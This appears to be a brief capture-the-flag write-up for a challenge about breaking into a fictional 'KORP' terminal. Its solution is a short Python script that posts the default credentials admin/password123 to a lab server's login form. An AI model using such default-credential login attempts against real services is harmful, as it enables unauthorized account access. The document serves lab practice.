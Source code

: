 ## **Description**
Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

Solution: 

```py
from requests import *

url="http://83.136.253.3:40697/"

s=Session()
data={"username":"admin","password":"password123"}
r=post(url,data=data)
print(r.text)
```
